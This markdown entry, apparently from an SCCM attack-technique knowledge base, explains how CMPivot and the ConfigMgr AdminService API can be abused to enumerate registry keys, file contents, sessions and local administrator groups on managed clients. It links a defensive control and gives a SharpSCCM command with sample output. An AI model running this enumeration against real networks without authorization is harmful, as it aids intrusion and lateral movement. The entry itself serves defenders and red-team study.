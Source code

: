 # RECON-4
## Description
Leverage CMPivot to Query Information from Clients

## ATT&CK TTPs
- [TA0009](https://attack.mitre.org/tactics/TA0009/) - Collection
- [TA0010](https://attack.mitre.org/tactics/TA0010/) - Exfiltration
- [TA0007](https://attack.mitre.org/tactics/TA0007/) - Discovery

## Required Privilege / Context
- Run CMPivot permission on the Collection scope
- Read permission on Collections
- Read permission on Inventory Reports
- Read permission on the SMS Scripts object (n/a after version 2107)
- The default scope (n/a after version 2107)
- Target clients require a minimum of PowerShell version 4
- Additional details: https://learn.microsoft.com/en-us/mem/configmgr/core/servers/manage/cmpivot#permissions

## Summary
CMPivot is part of the ConfigMgr framwework. It allows for real time collection of data from client hosts.

The data collected is based on different queries available as part of the framework. Queries are made using the Kusto Query Language (KQL) and allows for different filters to be applied to the data received.

These queries allow CMPivot users to pull data like Windows event logs, registry values, file contens, local group information, etc.

The most common usage of CMPivot is done through a GUI. From the CMPivot window we can:
1. In the SCCM Manager console select the target/s to run queries against (Single resource or a collection)
2. Select the query from the left pane or enter it manually in the query pane plus any desired filters
3. Run the query on the target client or collection
4. Results pane displays the data returned

In the background the data obtained from these queries is gathered either through WMI or by running a Powershell script on the client/s (Powershell script is run as SYSTEM on targets)
   
Additionally ConfigMgr exposes the AdminService REST API which in turn exposes methods to perform CMPivot queries.

https://{managementPoint}/AdminService/v1.0/Device({deviceId})/AdminService.RunCMPivot

AdminService also allows for retriving the results of our queries.

https://{managementPoint}/AdminService/v1.0/Collections('{collectionName}')/AdminService.RunCMPivot


## Impact
With the required permissions an attacker can leverage CMPivot + AdminService to deploy operations to client hosts within a ConfigMgr site.

Some of these operations allow for enumeration of:

  - Active sessions
  - Registry keys and values
  - Local administrator group
  - Arbitrary file contents
  - Windows event logs

And a lot more. There are more than 130 queries available

## Defensive IDs
- [PREVENT-9: Enforce MFA for SMS provider calls](../../../defense-techniques/PREVENT/PREVENT-9/prevent-9_description.md)

## Examples

- Using SharpSCCM to enumerate local administrators group from the ConfigMgr client with ID 16777226
```
.\SharpSCCM.exe invoke admin-service -r 16777226 -q "Administrators" -sms site-sms -d 10

[+] Sending query to AdminService
[+] URL: "https://site-sms/AdminService/v1.0/Device(16777226)/AdminService.RunCMPivot"
[+] OperationId found: 16777463
[+] Attempt 1 of 5: Checking for query operation to complete
[+] URL: "https://site-sms/AdminService/v1.0/Device(16777226)/AdminService.CMPivotResult(OperationId=16777463)"
[+] 10 seconds until next attempt
[+] Attempt 2 of 5: Checking for query operation to complete
[+] URL: "https://site-sms/AdminService/v1.0/Device(16777226)/AdminService.CMPivotResult(OperationId=16777463)"
[+] 10 seconds until next attempt
[+] Successfully retrieved results from AdminService
Device: SITE-SERVER
ObjectClass: User
Name: MAYYHEM\CAS$
PrincipalSource: ActiveDirectory
----------------------------------------
Device: SITE-SERVER
ObjectClass: Group
Name: MAYYHEM\Domain Admins
PrincipalSource: ActiveDirectory
----------------------------------------
Device: SITE-SERVER
ObjectClass: User
Name: MAYYHEM\sccmadmin
PrincipalSource: ActiveDirectory
----------------------------------------
Device: SITE-SERVER
ObjectClass: User
Name: SITE-SERVER\Administrator
PrincipalSource: Local
----------------------------------------
[+] Completed execution in 00:00:21.1354974
```

## References
- Microsoft, CMPivot for real-time data in Configuration manger, https://learn.microsoft.com/en-us/mem/configmgr/core/servers/manage/cmpivot
- Benoit Lecours, SCCM CMPivot Query Examples, https://www.systemcenterdudes.com/sccm-cmpivot-query/
- Microsoft, What is the administration service in ConfigMgr, https://learn.microsoft.com/en-us/mem/configmgr/develop/adminservice/overview
- Diego Lomellini, Lateral Movement without Lateral Movement, https://posts.specterops.io/lateral-movement-without-lateral-movement-brought-to-you-by-configmgr-9b79b04634c7
